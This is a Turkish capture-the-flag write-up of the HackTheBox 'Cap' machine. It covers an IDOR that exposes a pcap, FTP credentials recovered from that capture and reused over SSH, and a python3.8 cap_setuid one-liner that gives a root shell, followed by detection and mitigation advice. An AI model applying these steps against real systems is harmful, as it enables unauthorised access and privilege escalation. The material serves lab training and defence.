# HackTheBox — Cap Writeup



| | |
|---|---|
| **Makine** | Cap |
| **Platform** | HackTheBox |
| **İşletim Sistemi** | Linux (Ubuntu 20.04.2 LTS) |
| **Zorluk** | Easy |
| **IP** | 10.129.72.105 |

**Saldırı Zinciri:** `nmap` → Web IDOR → PCAP'ten cleartext FTP kimlik bilgileri → SSH → `cap_setuid` ile Privilege Escalation → root

---

## 1. Reconnaissance — Port Taraması

Her zaman olduğu gibi hedefi `nmap` ile tarayarak başlıyoruz. `-sV` servis versiyonlarını, `-sC` ise varsayılan NSE scriptlerini çalıştırır.

```bash
nmap -sV -sC 10.129.72.105
```



Sonuçlar **3 açık TCP portu** gösteriyor:

| Port | Servis | Versiyon |
|------|--------|----------|
| 21/tcp | FTP | vsftpd 3.0.3 |
| 22/tcp | SSH | OpenSSH 8.2p1 (Ubuntu) |
| 80/tcp | HTTP | Gunicorn (Security Dashboard) |

Öne çıkanlar: 80. portta bir Python web uygulaması (Gunicorn arka planda çalışıyor) ve 21. portta FTP servisi var. FTP'nin cleartext bir protokol olması ileride işimize yarayacak.

> **Task 1 — How many TCP ports are open?** Cevap: **3**

---

## 2. Web Uygulamasının Keşfi

Tarayıcıda `http://10.129.72.105` adresine gidiyoruz. Karşımıza **"Security Dashboard"** adında, `Nathan` kullanıcısıyla oturum açılmış bir panel çıkıyor.

Sol menüdeki **"Security Snapshot (5 Second PCAP + Analysis)"** özelliği dikkat çekici — 5 saniyelik bir ağ trafiği yakalayıp analiz sonuçlarını gösteriyor ve `.pcap` dosyası indirmemize izin veriyor.

Bu bölüme girdiğimizde URL'nin şu formatta olduğunu görüyoruz:

```
http://10.129.72.105/data/1
```



Bu snapshot'ta tüm değerler `0` görünüyor (bize ait boş bir yakalama).

---

## 3. Vulnerability — IDOR (Insecure Direct Object Reference)

URL'deki `/data/1` bölümündeki sayı bir **nesne kimliği (object ID)**. Uygulama, bu ID'nin gerçekten bize ait olup olmadığını **doğrulamıyor**. Bu klasik bir **IDOR** zafiyetidir.

ID'yi elle `0` yaparak başka bir kullanıcının/oturumun snapshot'ına erişmeyi deniyoruz:

```
http://10.129.72.105/data/0
```



Bu sefer boş değil! `72 paket`, `69 IP paketi`, `69 TCP paketi` yakalanmış bir kayıt görüyoruz. Bu, muhtemelen başka bir kullanıcının oturumuna ait dolu bir yakalama.

**"Download"** butonuna basıp `0.pcap` dosyasını indiriyoruz.

> **Neden çalışıyor?** Uygulama, kaynağa erişimde yetkilendirme (authorization) kontrolü yapmıyor; sadece ID'yi doğrudan referans olarak kullanıyor. Saldırgan ID'yi tahmin/değiştirerek (`0, 1, 2...`) başkalarının verilerine ulaşabiliyor.

---

## 4. PCAP Analizi — Cleartext Kimlik Bilgisi Avı

İndirdiğimiz `0.pcap` dosyasını **Wireshark** ile açıyoruz. İçinde bir **FTP oturumu** olduğunu görüyoruz. FTP kimlik bilgilerini **şifrelemeden, düz metin (cleartext)** olarak taşıdığı için `USER` ve `PASS` komutları paketlerde açıkça görünür.

TCP stream'i filtreleyerek FTP trafiğine odaklanıyoruz (`tcp.stream eq 3`):



Paketlerde şunları görüyoruz:
- `Request: USER nathan`
- `Request: PASS Buck3tH4TF0RM3!`
- `Response: 230 Login successful.`

Tüm konuşmayı net görmek için pakete sağ tıklayıp **Follow → TCP Stream** seçiyoruz:



Ele geçirilen kimlik bilgileri:

```
Kullanıcı adı : nathan
Parola        : Buck3tH4TF0RM3!
```

Aynı işlemi terminalden `tshark` ile de yapabilirdik:

```bash
tshark -r 0.pcap -Y ftp -T fields -e ftp.request.command -e ftp.request.arg
```

---

## 5. Initial Access — SSH ile User Shell

`nmap` çıktısından 22. portun (SSH) açık olduğunu biliyoruz. İnsanlar parolalarını genelde birden fazla serviste tekrar kullanır — bu makine de tam olarak bunu öğretiyor. FTP'den bulduğumuz kimlik bilgileriyle SSH'ı deniyoruz:

```bash
ssh nathan@10.129.72.105
# Parola: Buck3tH4TF0RM3!
```



Giriş başarılı — `Ubuntu 20.04.2 LTS` üzerinde `nathan` olarak shell aldık.

### user.txt

```bash
ls -la
cat user.txt
```



**User flag** elde edildi. ✅

---

## 6. Privilege Escalation — Linux Capabilities (`cap_setuid`)

Root'a yükselmek için sistemi enumerate ediyoruz. Linux **capabilities**, bir binary'ye tam root vermeden belirli ayrıcalıklar tanıyan bir mekanizmadır — ama yanlış yapılandırıldığında privesc'e yol açar. Set edilmiş tüm capability'leri listeliyoruz:

```bash
getcap -r / 2>/dev/null
```



Kritik satır:

```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

`python3.8` binary'sine **`cap_setuid`** yetkisi verilmiş. Bu, Python'un `setuid(0)` sistem çağrısıyla kendi UID'ini `0` (root) yapabileceği anlamına gelir — `sudo`'ya bile gerek yok.

Bu capability'yi istismar ederek root shell alıyoruz:

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```



Prompt `nathan@cap:~$` → `root@cap:~#` oldu. Artık root'uz. 🎉

> **Neden çalışıyor?** `cap_setuid` yetkisi, prosesin herhangi bir UID'e (0 = root dahil) geçmesine izin verir. Python `os.setuid(0)` çağrısıyla root'a yükselir, ardından açtığı bash shell root ayrıcalıklarını miras alır.

### root.txt

```bash
cat /root/root.txt
```



**Root flag** elde edildi. ✅ Makine tamamlandı.

---

## Özet — Attack Path

```
nmap taraması (21/22/80)
        │
        ▼
Web Dashboard  ──►  /data/1 → /data/0  (IDOR)
        │
        ▼
0.pcap indir  ──►  Wireshark: FTP cleartext creds
        │              (nathan : Buck3tH4TF0RM3!)
        ▼
SSH ile giriş  ──►  user.txt
        │
        ▼
getcap  ──►  python3.8 = cap_setuid
        │
        ▼
os.setuid(0) + /bin/bash  ──►  root  ──►  root.txt
```

---

## Detection Opportunities (Savunma Tarafı)

- **IDOR:** Web sunucu loglarında aynı IP'nin `/data/` altında ardışık ID'leri (`/data/0`, `/data/1`, `/data/2`...) sıralı sorgulaması, enumerasyon işaretidir.
- **Cleartext FTP:** Ağ üzerinde 21. porttan geçen düz metin kimlik bilgileri, IDS/IPS (Suricata/Snort) ile yakalanabilir.
- **Privesc:** `cap_setuid` içeren bir binary'nin `setuid(0)` çağırması EDR/auditd ile izlenebilir; beklenmedik root shell spawn'ları tespit edilmelidir.

## Mitigation Recommendations (Önlemler)

- **IDOR:** Her nesne erişiminde yetkilendirme kontrolü uygulayın (kaynak isteyen kullanıcıya mı ait?). Tahmin edilebilir ardışık ID yerine UUID kullanın.
- **FTP:** Cleartext FTP yerine **FTPS/SFTP** kullanın; kimlik bilgilerini asla şifrelenmemiş kanaldan geçirmeyin.
- **Parola tekrarı:** Servisler arası aynı parolanın kullanılmasını engelleyin.
- **Capabilities:** Binary'lere gereksiz capability atamayın. `python3.8` gibi genel amaçlı yorumlayıcılara **asla** `cap_setuid` vermeyin — `setcap -r /usr/bin/python3.8` ile kaldırın.

---

*Bu writeup yalnızca eğitim amaçlıdır ve yetkili bir lab ortamında (HackTheBox) gerçekleştirilmiştir.*
